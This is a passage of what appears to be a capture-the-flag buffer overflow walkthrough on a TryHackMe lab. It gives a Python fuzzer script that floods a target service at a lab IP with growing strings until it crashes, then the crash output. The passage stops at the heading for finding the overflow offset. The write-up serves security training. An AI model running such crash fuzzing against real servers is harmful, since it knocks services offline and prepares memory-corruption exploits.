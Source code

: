 #### Fuzzing 

3. Fuzzing :- we will try to overload the server using fuzzing 
```python
import socket,time,sys

send = "A" * 100 
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.62.72",1337))
        s.recv(1024)
        string = "OVERFLOW1 " + send
        print ("sending {} byte".format(len(string)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
        print ("Fuzzing crashed at this {} byte".format(len(string)))
        sys.exit(0)
    send = send + "A" * 100
    time.sleep(1)
```

save it with `fuzzer.py` and use `chmod +x fuzzer.py` and run this code using ==python3 fuzzer.py==

```python
──(mike㉿kali)-[~/Tryhackme/buffer]
└─$ python3 fuzzer.py
sending 100 byte
sending 200 byte
sending 300 byte
sending 400 byte
sending 500 byte
sending 600 byte
sending 700 byte
sending 800 byte
sending 900 byte
sending 1000 byte
sending 1100 byte
sending 1200 byte
sending 1300 byte
sending 1400 byte
sending 1500 byte
sending 1600 byte
sending 1700 byte
sending 1800 byte
sending 1900 byte
sending 2000 byte
^Cfuzzing crashed at 2000 byte
```

Now we know our program has `crashed at 2000 Bytes`
we will make a `pattern of 2400 byte` and figure at which point it cash the server 
#### Finding the offset point
